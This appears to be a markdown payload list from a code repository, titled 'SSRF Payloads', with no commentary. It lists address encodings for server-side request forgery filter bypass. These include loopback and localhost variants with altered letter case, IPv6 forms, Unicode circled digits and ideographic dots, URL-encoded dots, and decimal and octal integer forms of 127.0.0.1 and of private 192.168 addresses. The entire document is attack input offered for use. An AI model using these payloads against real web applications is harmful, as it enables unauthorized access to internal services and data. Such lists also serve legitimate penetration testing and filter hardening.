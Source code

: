 # SSRF Payloads

>Server side request forgery  

```
127.0.0.1
```
```
127.1
```  

```
localhost
```
```
Localhost
```
```
LocalHost
```
```
lOcAlhOsT
```
```
LOcalHOSt
```  

```
[::]
```
```
[0000::1]
```
```
[0:0:0:0:0:ffff:127.0.0.1]
```

```
①②⑦.⓪.⓪.⓪
```
```
127.127.127.127
```
```
127.0.1.3
```
```
127.0.0.0
```
```
127。0。0。1
```
```
127%E3%80%820%E3%80%820%E3%80%821
```

```
2130706433
```
```
3232235521
```
```
3232235777
```
```
2130706433
```  

```
017700000001
```